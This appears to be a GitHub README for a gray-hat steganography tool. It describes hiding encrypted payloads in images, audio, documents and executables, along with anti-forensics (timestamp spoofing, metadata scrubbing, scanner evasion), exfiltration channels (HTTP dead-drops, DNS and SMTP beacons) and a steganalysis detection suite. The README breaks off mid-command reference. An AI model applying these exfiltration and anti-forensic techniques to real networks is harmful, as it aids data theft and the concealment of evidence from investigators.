


<p align="center">
  
</p>

# ☠️ A S H E N C R Y P T

### Universal-Carrier Steganography Platform

**Author:** `SYLHETYHACKVENGER` (THE-ERROR808)  
**Version:** 15 (Black Ops)  
**License:** MIT (with ethical-use addendum)  
**Language:** Python 3.10+  

[](https://www.python.org/)
[]()
[]()
[]()
[]()

> ⚠️ **Gray-hat / red-team tool** — for authorized testing only.  
> Unauthorized use violates CFAA, CMA, EU NIS2, GDPR, and equivalent laws globally.

</div>

---

## 📋 Table of Contents

1. [Overview](#-overview)
2. [What Is ASHENCRYPT](#-what-is-ashencrypt)
3. [Legal & Ethical Notice](#-legal--ethical-notice)
4. [Feature Matrix](#-feature-matrix)
5. [Supported Carriers](#-supported-carriers)
6. [Embedding Algorithms](#-embedding-algorithms)
7. [Cryptography Stack](#-cryptography-stack)
8. [Anti-Forensics Layer](#-anti-forensics-layer)
9. [Covert-Channel Features](#-covert-channel-features)
10. [Forensic Detection Suite](#-forensic-detection-suite)
11. [Installation](#-installation)
12. [Quick Start](#-quick-start)
13. [Full Command Reference](#-full-command-reference)
14. [Workflow Examples](#-workflow-examples)
15. [Algorithm Deep-Dive](#-algorithm-deep-dive)
16. [Security Model](#-security-model)
17. [Performance Benchmarks](#-performance-benchmarks)
18. [Threat Model](#-threat-model)
19. [Troubleshooting](#-troubleshooting)
20. [FAQ](#-faq)
21. [Architecture](#-architecture)
22. [Contributing](#-contributing)
23. [Acknowledgements](#-acknowledgements)

---

## 🔍 Overview

**ASHENCRYPT** is a professional, single-file, universal-carrier steganography platform engineered for authorized red-team operations, covert-channel research, digital forensics education, and advanced security testing. Unlike conventional steganography tools that only support image-based carriers, ASHENCRYPT treats **any file as a potential carrier** — images, audio, video, documents, executables, and arbitrary binary blobs — automatically selecting the most appropriate embedding algorithm based on carrier type, capacity, texture analysis, and stealth-versus-robustness trade-offs. The tool integrates a **dual-KDF cryptographic layer** (Scrypt 2^14 + PBKDF2-SHA256 1M iterations, XOR-combined per-file), **auto-selection between AES-256-GCM and ChaCha20-Poly1305**, **Reed-Solomon error correction** (GF(256), 16-byte parity per 223-byte block), **zlib compression**, and **dual-integrity verification** (SHA-256 prefix + CRC32). Beyond embedding, ASHENCRYPT ships a full **forensic detection suite** — chi-square analysis, RS-analysis, SPA (sample-pair analysis), LSB entropy profiling, and histogram bimodality scoring — plus an **offensive anti-forensics layer** including bit-shuffling, entropy normalization, polymorphic markers, timestamp spoofing, metadata scrubbing, honey-payload injection, decoy padding, multi-layer nesting, and self-destruct timers. Exfiltration channels include HTTP dead-drops, DNS tunneling beacons, SMTP beacons, and HMAC-based webhook callbacks. Defense-side capabilities include payload carving without keys, poison-mode destruction (5 modes), honey-trap generation, and evasion simulation against JPEG recompression, blur, noise, and resampling. All 20 embedding algorithms, all crypto primitives, all forensic analyzers, all covert channels, and all operational utilities live in a **single Python file with zero external assets** — no data directories, no configuration files, no dependencies beyond Pillow, NumPy, SciPy, cryptography, tqdm, and (optionally) mutagen/OpenCV. Whether you are a red-team operator exfiltrating a file through a monitored network, a forensic analyst hunting for embedded payloads in a compromised system, a researcher studying statistical detection of LSB randomization, or a security instructor teaching covert-channel concepts, ASHENCRYPT provides a complete, self-validating, scriptable, production-ready toolkit that works identically on Linux, macOS, and Windows Terminal. The tool is released under MIT with an ethical-use addendum, and every component — from the CLI banner to the forensic report — is designed to be transparent, auditable, and reproducible, so operators can defend every action with a documented authorization trail.

---

## 🧩 What Is ASHENCRYPT

ASHENCRYPT is not a single-purpose LSB steganography script. It is a **modular, multi-paradigm steganography engine** with the following distinguishing characteristics:

### Universal Carrier Support
Traditional tools embed only into bitmap images. ASHENCRYPT embeds into **20+ file formats** across six categories:
- **Images:** PNG, JPG, JPEG, BMP, TIFF, WEBP, GIF
- **Audio:** WAV, MP3, FLAC, OGG, OPUS, M4A, AAC
- **Video:** MP4, AVI, MKV, MOV, WEBM
- **Documents:** PDF, DOCX, XLSX, PPTX
- **Executables:** EXE, DLL, ELF, SO, BIN
- **Archives:** ZIP
- **Any binary:** EOF-appended fallback

### Adaptive Algorithm Selection
The `auto hide` command ranks every carrier in a directory by a **composite score** combining:
1. **Texture** (edge density) — busy images hide LSB changes better than flat ones
2. **Capacity headroom** — carrier capacity relative to payload size
3. **Stealth coefficient** — algorithm-specific detection resistance

It then cascades through algorithms in **stealth-first order** (`adaptive → jsteg → dct → spread → lsb → multi → ultra → hyper → max → palette → alpha`), picking the first that fits with maximum stealth. If no single carrier fits, it falls back to **multi-carrier distribution** with proportional byte allocation.

### Cryptographic Hardening
- **Dual-KDF**: Scrypt (n=2^14, r=8, p=1) ⊕ PBKDF2-SHA256 (1,000,000 iterations) — each derived key requires both functions to succeed
- **Auto-cipher**: random per-file selection between AES-256-GCM and ChaCha20-Poly1305
- **Random salt + nonce** per file (16 + 12 bytes)
- **Polymorphic magic** — every file has a random 4-byte magic instead of a fixed marker
- **HMAC-SHA256** on overlay payloads (EXE algorithm)
- **Dual integrity** — SHA-256 prefix of plaintext + CRC32 of ciphertext

### Anti-Forensics Layer
- **Bit-shuffling** — payload bits written in random permutation, defeating sequential LSB scanners
- **Entropy normalization** — forces pixel histogram toward maximum entropy (target 7.99 bits/pixel)
- **Metadata scrubbing** — strips EXIF, PNG tEXt/iTXt chunks, and other identifying metadata
- **Timestamp spoofing** — randomizes mtime/atime by up to 24 hours
- **Polymorphic markers** — every `ASHVER`, `ASHOVL`, `ASHMP4`, `ASHNTAG` marker is followed by 4–8 random bytes
- **Adversarial shaping** — adds ±3 pixel noise + 10% Gaussian blend over the entire image
- **Honey payload** — prepends a 1024-byte decoy blob so naive carvers extract garbage
- **Decoy padding** — appends 0–1024 random bytes, disguising true payload length
- **Nesting** — N rounds of compress→XOR→sign before encryption, defeating single-layer extraction

### Deception Features
- **Polyglot builder** — creates files valid as both PNG (contains stego) and another format (GIF/BMP/custom)
- **Chain encode/decode** — 3+ rounds of compress→base64→XOR
- **Honey trap generator** — N random images with fake payloads, to pollute adversary analysis
- **Self-destruct timers** — payload refuses extraction after a specific Unix timestamp

### Covert Channels
- **Dead-drop** — POSTs AES-encrypted JSON blob to arbitrary URL
- **DNS beacon** — resolves `<hmac>.<domain>` for out-of-band signaling
- **SMTP beacon** — authenticated STARTTLS email delivery
- **HTTP beacon** — HMAC-of-file POST to webhook

### Forensic Suite
- **`hunt`** — scans any file for all 20 algorithms, reports flags + payload size + magic bytes
- **`carve`** — dumps encrypted blob without needing password (for offline crypto analysis)
- **`analyse`** — chi-square p-value, RS-analysis, SPA, LSB entropy, histogram bimodality, PSNR, SSIM
- **`evade`** — tests survival against JPEG 95/85/70, Gaussian blur, ±3 noise, 50% resize
- **Composite risk score** — combines 4 detectors into a single 0–100 forensic risk number

### Operational Utilities
- **Batch mode** — thread-parallel embed over directory with 4–16 workers
- **Capacity reporter** — per-file, per-algorithm capacity audit
- **Encrypted vault** — master-password-protected keyring
- **Self-test suite** — 10+ automated round-trip tests
- **Python API** — `_Eng`, `analyse`, `_Vault`, `_hunt` classes usable programmatically

### Zero External Assets
- **Single file** — no data directories, no config files, no resource bundles
- **5 core deps** — Pillow, NumPy, SciPy, cryptography, tqdm
- **2 optional deps** — mutagen (ID3/FLAC metadata), OpenCV (video frame embedding)
- **~2,300 lines** total, readable, auditable

---

## ⚖️ Legal & Ethical Notice

> **READ CAREFULLY BEFORE USING THIS TOOL**

**ASHENCRYPT is a gray-hat security research tool.** It combines offensive (exfiltration, evasion, anti-forensics) and defensive (detection, carving, poisoning) capabilities into a single platform. This duality is intentional — red teams must understand defensive detection to build effective offensive tools, and defenders must understand offensive evasion to build effective detectors.

### Authorized Use Only

This tool is designed **exclusively** for:

| ✅ Authorized | ❌ Unauthorized |
|---|---|
| Penetration testing with **written authorization** | Testing any system you don't own |
| Red-team engagements under signed contract | Bypassing corporate security controls |
| CTF competitions | Data exfiltration from victim systems |
| Security research on owned systems | Surveillance or stalking |
| Forensic investigation (defensive use) | Malware deployment |
| Educational study in controlled labs | Any use violating local/national/international law |

### Applicable Laws

Unauthorized use of ASHENCRYPT may violate:

- **United States:** Computer Fraud and Abuse Act (CFAA, 18 U.S.C. § 1030)
- **United Kingdom:** Computer Misuse Act 1990
- **European Union:** NIS2 Directive, GDPR (if personal data is involved)
- **Canada:** Criminal Code Section 342.1
- **Australia:** Criminal Code Act 1995, Part 10.7
- **India:** Information Technology Act 2000, Section 66
- **Bangladesh:** Digital Security Act 2018 / Cyber Security Act 2023
- **And equivalent statutes worldwide**

Penalties range from **civil liability** (damages) to **criminal prosecution** (up to 20+ years imprisonment in some jurisdictions).

### Author's Position

The author, **SYLHETYHACKVENGER (THE-ERROR808)**, provides this tool for **legitimate security research**. The author:

- **Assumes zero liability** for any use violating these terms
- **Will not** provide support for illegal use
- **Encourages** responsible disclosure of any bugs or issues
- **Reserves** the right to revoke the license of anyone found using the tool for malicious purposes

### Ethical Guidelines

1. **Always obtain written authorization** before testing any system
2. **Document your actions** — maintain logs of every command
3. **Respect scope** — do not exceed the boundaries of your authorization
4. **Report findings** — disclose detected vulnerabilities to the system owner
5. **Minimize harm** — use the least invasive technique that proves your point
6. **Preserve evidence** — do not destroy logs or data during testing
7. **Follow the law** — when in doubt, consult legal counsel

### License Addendum

The MIT license applies, with the following addendum:

> **The software shall not be used for any purpose that violates applicable law, harms individuals or organizations without authorization, or constitutes unauthorized access to computer systems. Any violation of these terms voids the warranty and shifts all liability to the user. The author disclaims responsibility for any damages — direct, indirect, incidental, or consequential — arising from unauthorized use.**

---


<p align="center">
  
</p>

## 🎯 Feature Matrix

| Category | Feature | Status |
|---|---|---|
| **Embedding** | 20 algorithms across 6 carrier types | ✅ |
| | Auto-algorithm selection | ✅ |
| | Multi-carrier distribution | ✅ |
| | Per-file capacity audit | ✅ |
| **Crypto** | AES-256-GCM | ✅ |
| | ChaCha20-Poly1305 | ✅ |
| | Dual-KDF (Scrypt ⊕ PBKDF2) | ✅ |
| | Random salt + nonce | ✅ |
| | Polymorphic magic bytes | ✅ |
| | Encrypted key vault | ✅ |
| **Compression** | zlib level 9 | ✅ |
| **Error Correction** | Reed-Solomon GF(256) | ✅ |
| **Integrity** | SHA-256 prefix + CRC32 | ✅ |
| **Anti-Forensics** | Bit shuffling | ✅ |
| | Entropy normalization | ✅ |
| | Metadata scrubbing | ✅ |
| | Timestamp spoofing | ✅ |
| | Polymorphic markers | ✅ |
| | Adversarial noise | ✅ |
| | Honey payload | ✅ |
| | Decoy padding | ✅ |
| | Multi-layer nesting | ✅ |
| **Deception** | Polyglot files | ✅ |
| | Chain encode | ✅ |
| | Honey traps | ✅ |
| | Self-destruct | ✅ |
| **Covert Channels** | HTTP dead-drop | ✅ |
| | DNS beacon | ✅ |
| | SMTP beacon | ✅ |
| | HTTP beacon | ✅ |
| **Forensics** | Algorithm hunt | ✅ |
| | Payload carving | ✅ |
| | Chi-square | ✅ |
| | RS-analysis | ✅ |
| | SPA | ✅ |
| | LSB entropy | ✅ |
| | Histogram analysis | ✅ |
| | PSNR / SSIM | ✅ |
| | Composite risk score | ✅ |
| | Evasion simulation | ✅ |
| | Poison (5 modes) | ✅ |
| **Ops** | Batch parallel | ✅ |
| | Capacity report | ✅ |
| | Self-test | ✅ |
| | Encrypted vault | ✅ |
| | JSON reports | ✅ |
| **Platform** | Linux | ✅ |
| | macOS | ✅ |
| | Windows Terminal | ✅ |
| | Python 3.10+ | ✅ |
| | Single-file deployment | ✅ |

---

## 🖼️ Supported Carriers

### By File Type

| Category | Extensions | Default Algorithms |
|---|---|---|
| **Images** | `.png .jpg .jpeg .bmp .tif .tiff .webp .gif` | adaptive, jsteg, dct, spread, lsb, multi, ultra, hyper, max, palette, alpha |
| **Audio** | `.wav` | wav, eof |
| | `.mp3 .flac .ogg .opus .m4a .aac` | mp3, meta, eof |
| **Video** | `.mp4 .avi .mkv .mov .webm` | mp4, video, meta, eof |
| **Documents** | `.pdf` | pdf, eof |
| | `.docx .xlsx .pptx` | eof |
| **Executables** | `.exe .dll .elf .so .bin` | exe, eof |
| **Archives** | `.zip` | zip, eof |
| **Any** | `*` | eof |

### By Algorithm

| Algorithm | Carrier | Capacity (1024² RGB) | Stealth | Robustness |
|---|---|---|---|---|
| `adaptive` | Image | ~236 KB (edges only) | ★★★★★ | ★★★ |
| `jsteg` | Image | ~98 KB | ★★★★ | ★★★★★ |
| `dct` | Image | ~98 KB | ★★★★ | ★★★★★ |
| `spread` | Image | ~393 KB | ★★★★ | ★★★ |
| `lsb` | Image | 393 KB | ★★★★★ | ★★ |
| `multi` | Image | 786 KB | ★★★★★ | ★★ |
| `ultra` | Image | 1.57 MB | ★★★ | ★★ |
| `hyper` | Image | 2.36 MB | ★★ | ★★ |
| `max` | Image | 3.14 MB | ★ | ★★ |
| `palette` | Image (P-mode) | 131 KB | ★★★ | ★★ |
| `alpha` | RGBA PNG | 131 KB | ★★★★★ | ★ |
| `wav` | WAV | Samples ÷ 8 | ★★★★★ | ★★ |
| `mp3` | MP3/FLAC/OGG | File size − 1 KB | ★★★★ | ★★★★ |
| `meta` | Any audio tag | 64 KB | ★★★ | ★★★★ |
| `mp4` | MP4 | 3× file size | ★★★ | ★★★★ |
| `video` | Video | First frame ÷ 8 | ★★★★ | ★★ |
| `pdf` | PDF | 2× file size | ★★★★ | ★★★ |
| `zip` | ZIP | 65,535 B | ★★★★ | ★★★ |
| `exe` | PE/ELF | 2× file size | ★★★★ | ★★★ |
| `eof` | Any file | 2× file size | ★★★ | ★★★★ |

---

## 🧬 Embedding Algorithms

### Image Algorithms

**`adaptive`** — Edge-aware LSB. Computes Sobel-like gradient magnitude, embeds only in the top 60% of textured pixels. Bits permuted by random seed before embedding. **Best stealth, smallest capacity.**

**`jsteg`** — JPEG-domain DCT. Modulates 4 AC coefficients (0,1), (1,0), (2,0), (0,2) per 8×8 block to encode parity bits. **Survives JPEG recompression.**

**`dct`** — Classic DCT embedding. Modulates 2 coefficients per block. **Compression-resistant, small capacity.**

**`spread`** — Random-permutation LSB. Instead of sequential pixels, uses a seeded random permutation to scatter payload bits. **Resists sequential-scanning detectors.**

**`lsb`** — Standard sequential LSB on RGB. **Maximum stealth for basic LSB, minimal robustness.**

**`multi`** — 2 bit-planes per channel. **2× LSB capacity, still visually invisible.**

**`ultra`** — 4 bit-planes. **4× LSB capacity, slight noise in flat regions.**

**`hyper`** — 6 bit-planes. **6× LSB capacity, visible noise but still natural-looking.**

**`max`** — Full 8-bit-plane replacement. **Theoretical max, high detection risk, use only with noisy carriers.**

**`palette`** — Modifies palette indices. **Only works on palettized images, small capacity.**

**`alpha`** — Uses RGBA alpha channel. **Zero visual impact on opaque images, requires PNG carrier.**

### Audio Algorithms

**`wav`** — LSB on raw PCM samples. Supports 8/16/32-bit, mono/stereo. **Highest audio fidelity.**

**`mp3`** — Appends `ASHNTAG!` blob after last ID3 `TAG` frame. **Survives most players, works on MP3/FLAC/OGG.**

**`meta`** — Uses `mutagen` to write native ID3/Vorbis tags. **Native metadata channel, small capacity.**

### Video Algorithms

**`mp4`** — Appends `ASHMP4` trailer with CRC. **Works on any MP4/MOV, high capacity.**

**`video`** — LSB on first video frame. Requires OpenCV. **Small capacity but stealthy.**

### Document Algorithms

**`pdf`** — Appends base64 payload as `%ASHPAYLOAD%` comment after `%%EOF`. **Invisible to PDF viewers.**

**`zip`** — Uses 65 KB zip comment field. **Native ZIP feature.**

### Binary Algorithms

**`exe`** — Appends `ASHOVL` + HMAC-SHA256 blob as overlay. **Standard executable infection technique.**

**`eof`** — Appends `ASHVER` marker + payload + SHA-256 trailer. **Universal fallback.**

---

## 🔐 Cryptography Stack

### Key Derivation

```

password + salt
├─→ Scrypt(n=2^14, r=8, p=1, length=32)
└─→ PBKDF2-SHA256(iterations=1,000,000, length=32, salt_reversed)
↓
XOR combine
↓
256-bit derived key

```

**Why dual-KDF?** Attacking this requires breaking **both** Scrypt (memory-hard, GPU-resistant) **and** PBKDF2-SHA256 (widely studied). The XOR combination means a weakness in one doesn't compromise the other. Both must be defeated simultaneously.

### Encryption

- **Random selection:** Per-file, `secrets.randbits(1)` determines AES-GCM vs ChaCha20-Poly1305
- **Both AEAD ciphers** provide authenticated encryption (tamper detection built-in)
- **Salt:** 16 random bytes per file
- **Nonce:** 12 random bytes per file
- **No reuse:** Never reuse salt/nonce, even for same password

### Integrity

| Layer | Algorithm | Detects |
|---|---|---|
| **AEAD tag** | GCM/Poly1305 tag | Any ciphertext tampering |
| **CRC32** | zlib.crc32 | Pre-decryption corruption |
| **SHA-256 prefix** | First 16 bytes of SHA-256 | Post-decryption tampering |

### Header Format

| Offset | Size | Field |
|---|---|---|
| 0 | 4 | Magic (random per file) |
| 4 | 1 | Version (15) |
| 5 | 1 | Algorithm ID |
| 6 | 1 | Flags |
| 7 | 1 | ChaCha bit (0=AES, 1=ChaCha) |
| 8 | 4 | Ciphertext length |
| 12 | 16 | Salt |
| 28 | 12 | Nonce |
| 40 | 16 | SHA-256 prefix |
| 56 | 4 | CRC32 |
| 60 | 2 | RS parity |
| 62 | 2 | Parts count |
| 64 | 4 | Payload length |
| 68 | 4 | Nonce2 (random) |
| 72 | 4 | Self-destruct timestamp |
| 76 | 20 | Reserved |

**Total: 96 bytes** (16 bytes larger than v14 to accommodate the polymorphic magic + ChaCha bit + nonce2 + SD timestamp).

---

## 🕵️ Anti-Forensics Layer

### Why Anti-Forensics?

Every steganographic embedding leaves statistical artifacts. Chi-square analysis detects non-uniform LSB distributions. RS-analysis detects sample-pair irregularities. SPA detects structural pair distortions. Entropy analysis detects abnormally high LSB randomness.

**Anti-forensics attempts to normalize these artifacts** so that embedded files pass as natural.

### Techniques Implemented

#### 1. Bit-Shuffling
**What:** Rather than writing payload bits sequentially (which produces a detectable pattern), payload bits are permuted by a cryptographically random seed before writing. On extraction, the same seed must be used.

**Why:** Sequential LSB embedding creates a trailing "carrier-then-payload" boundary detectable by scanning. Shuffled bits distribute the payload across the entire image.

**Limitation:** Detection via chi-square still works if too many bits are embedded.

#### 2. Entropy Normalization
**What:** After embedding, compute LSB entropy. If below 7.99 bits/pixel, add ±1 random noise to reach target.

**Why:** Natural images have LSB entropy around 7.7–7.95. Payload embedding raises it toward 8.0. Forcing 7.99 makes detection-by-entropy unreliable.

**Limitation:** Adds visible noise; only useful for `hyper`/`max` algorithms.

#### 3. Metadata Scrubbing
**What:** Strips EXIF, PNG tEXt/iTXt chunks, JFIF comments, XMP packets by re-saving through Pillow.

**Why:** EXIF timestamps, GPS coordinates, and camera model can link a stego image to its source. Scrubbing removes attribution.

**Limitation:** Some formats (MP3, MP4) require `mutagen` for metadata removal.

#### 4. Timestamp Spoofing
**What:** After embedding, randomizes file `mtime` and `atime` to a random time within the last 24 hours.

**Why:** Filesystem metadata can reveal when a file was created. Spoofing makes stego files blend with normal activity.

**Limitation:** Some filesystems (NTFS with USN journal) preserve multiple timestamps.

#### 5. Polymorphic Markers
**What:** Instead of fixed `ASHVER`, `ASHOVL`, `ASHMP4` markers, each file uses the marker **followed by 4–8 random bytes**. Extraction scans for the marker prefix and ignores trailing bytes.

**Why:** Fixed markers can be signature-scanned by anti-virus or forensic tools. Random suffixes force every instance to be unique.

**Limitation:** Carving still works if the marker prefix is identified.

#### 6. Adversarial Shaping
**What:** Adds 2% random ±3 pixel noise plus 10% Gaussian blend over the entire image.

**Why:** Removes statistical fingerprints left by bit-plane modification. Makes the LSB distribution look more natural.

**Limitation:** Visible in flat regions; adds detectable noise to otherwise clean images.

#### 7. Honey Payload
**What:** Prepends a 1024-byte honey blob before the actual payload.

**Why:** Naive carvers extract the honey blob (all zeros) and assume it's the payload. Real payload extraction requires knowing the honey blob is present and skipping it.

**Limitation:** Increases payload size by 1 KB; extraction requires flag match.

#### 8. Decoy Padding
**What:** Appends 0–1024 random bytes to the payload before embedding.

**Why:** Encrypts length information. Real payload length is hidden in the header, not inferable from file size.

**Limitation:** Minimal impact; only frustrates naive length-inference attacks.

#### 9. Multi-Layer Nesting
**What:** N rounds of `zlib.compress → XOR with random key → prepend 16-byte SHA-256`. Each layer requires the previous layer to be fully decoded first.

**Why:** Single-layer extraction fails if extraction tool doesn't know the layer count. Adds obfuscation depth.

**Limitation:** Increases payload size by N×16 + compression overhead.

#### 10. Self-Destruct Timers
**What:** Embeds a Unix timestamp; extraction refuses if `current_time > timestamp`.

**Why:** Limits the window during which a captured payload can be analyzed. Ideal for time-scoped operations.

**Limitation:** Requires the extraction tool to respect the timer (a modified extractor can ignore it).

---

## 📡 Covert-Channel Features

### HTTP Dead-Drop
**Command:** `dead-drop <payload> <url> -k <key>`

**Mechanism:** Reads payload, encrypts with AES/ChaCha, base64-encodes to JSON:
```json
{
  "sid": "a3f4b2c1d5e6f7a8",
  "salt": "base64...",
  "nonce": "base64...",
  "ct": "base64..."
}
```

POSTs with Content-Type: application/json to URL. Server stores blob. Reconnaissance phase uses out-of-band channel to retrieve.

DNS Beacon

Command: dns-beacon <domain> <secret>

Mechanism: Computes HMAC-SHA256 of current timestamp with secret. Takes first 32 hex characters as token. Resolves <token>.<domain>.

Why DNS? Many networks allow DNS egress even when HTTP is blocked. A resolver controlled by the operator sees the token, confirming beacon reception.

SMTP Beacon

Command: smtp-beacon <host> --user U --pw P --to T@x.com

Mechanism: Authenticates via STARTTLS, sends email with configurable subject/body.

Why SMTP? Legitimate mail traffic rarely blocked. Email logs provide timestamped receipt.

HTTP Beacon

Command: http-beacon <stego> <url> <secret>

Mechanism: Computes HMAC-SHA256 of stego file with secret. POSTs JSON {"sig": hmac, "size": bytes, "ts": unix_time}.

Why HMAC? Proves possession of stego file without transmitting it. Optional size field leaks approximate payload size.

---

🔬 Forensic Detection Suite

Chi-Square Analysis

What: Compares observed LSB histogram to expected uniform distribution. Low p-value → embedded.

Math:

```
pairs = histogram.reshape(128, 2)
observed = pairs[:, 0]
expected = pairs.mean(axis=1)
chi2 = sum((observed - expected)² / expected)
p_value = survival_function(chi2, df)
```

Interpretation:

· p > 0.05 → likely clean
· p < 0.05 → suspicious
· p < 0.01 → almost certainly embedded

RS-Analysis

What: Divides image into 4-pixel groups. Applies "flip" mask and "dual flip" mask. Counts regular (R), singular (S), irregular (I) groups. Original images have R > S; embedded images have R ≈ S.

Output: estimated_lsb_rate — fraction of pixels modified.

SPA (Sample-Pair Analysis)

What: Compares adjacent pixel pairs before and after simulated LSB flip. Measures distortion in pair differences.

Output: spa_estimate — 0 (clean) to 1 (fully embedded).

LSB Entropy

What: Shannon entropy of LSB bit-plane. Clean images: 7.7–7.95. Embedded: 7.98–8.00.

Output: lsb_bit_entropy — bits per pixel.

Histogram Bimodality

What: Ratio of histogram standard deviation to mean. Natural images: 0.5–1.5. Embedded: higher (flatter histogram).

PSNR & SSIM

What: Peak Signal-to-Noise Ratio and Structural Similarity Index between original and stego.

Interpretation:

· PSNR > 40 dB → imperceptible
· PSNR > 30 dB → minor artifacts
· PSNR < 30 dB → visible

Composite Risk Score

```
risk = 30·(1 − chi_p / 0.05)     [chi-square contribution]
     + 20·rs_estimate             [RS-analysis contribution]
     + 20·spa_estimate            [SPA contribution]
     + 20·max(0, entropy − 0.98)  [entropy contribution]

verdict = SAFE (< 25) | CAUTION (< 60) | LIKELY-DETECTABLE (≥ 60)
```

Evasion Simulation

Command: evade <carrier> <payload> -a <algo>

Attacks tested:

Attack Effect
JPEG quality 95 Minor recompression
JPEG quality 85 Moderate recompression
JPEG quality 70 Heavy recompression
Gaussian blur 0.5 Blur
±3 pixel noise Small additive noise
50% resize + upscale Resampling

Output: survived / destroyed per attack.

Poison (Destruction)

Command: poison <input> <output> --mode <mode>

Mode Effect
shuffle Randomizes pixel positions
invert_lsb Flips all LSB bits
noise ±3 pixel noise
recompress JPEG re-encode at quality 75
blur Gaussian blur 0.8

Purpose: Defensive — destroy any payload before sharing captured files.

---

📦 Installation

Requirements

· Python 3.10+
· OS: Linux, macOS, or Windows with modern terminal

Core Dependencies

```bash
pip install Pillow numpy scipy cryptography tqdm
```

Optional Dependencies

```bash
# For `meta` algorithm (MP3/FLAC/OGG metadata)
pip install mutagen

# For `video` algorithm (first-frame LSB)
pip install opencv-python
```

Verify Install

```bash
python ashencrypt.py self-test
```

Expected output:

```
══════════════════════════════════════════════════════════════════════════════
  ASHENCRYPT | BLACK OPS — Self-Test
══════════════════════════════════════════════════════════════════════════════
  ok adaptive
  ok wav
  ok eof
  ok dct
  ok lsb
  ok full-stack
  ok honey (3 files)
  ok vault
  ok polyglot (XX,XXX B)
  ok chain

ALL PASSED
```

Single-File Deployment

ashencrypt.py is self-contained. No data directory, no config files. Copy one file:

```bash
curl -O https://raw.githubusercontent.com/sylhetyhackvenger/ASHENCRYPT/main/ashencrypt.py
chmod +x ashencrypt.py
./ashencrypt.py --help
```

---

⚡ Quick Start

1. First Hide

```bash
python ashencrypt.py auto hide secret.pdf ./covers/ -p "MyP@ss" -o ./out
```

2. First Extract

```bash
python ashencrypt.py auto extract ./out/secret_ash_adaptive.png recovered.pdf -p "MyP@ss"
```

3. Verify

```bash
diff secret.pdf recovered.pdf && echo "✅ Round-trip verified"
```

4. Inspect

```bash
python ashencrypt.py hunt ./out/secret_ash_adaptive.png --deep
```

---

📖 Full Command Reference

auto hide

```bash
python ashencrypt.py auto hide <PAYLOAD> <COVERS_DIR> [OPTIONS]
```

Flag Description
-o, --out DIR Output directory (default ./ash_out)
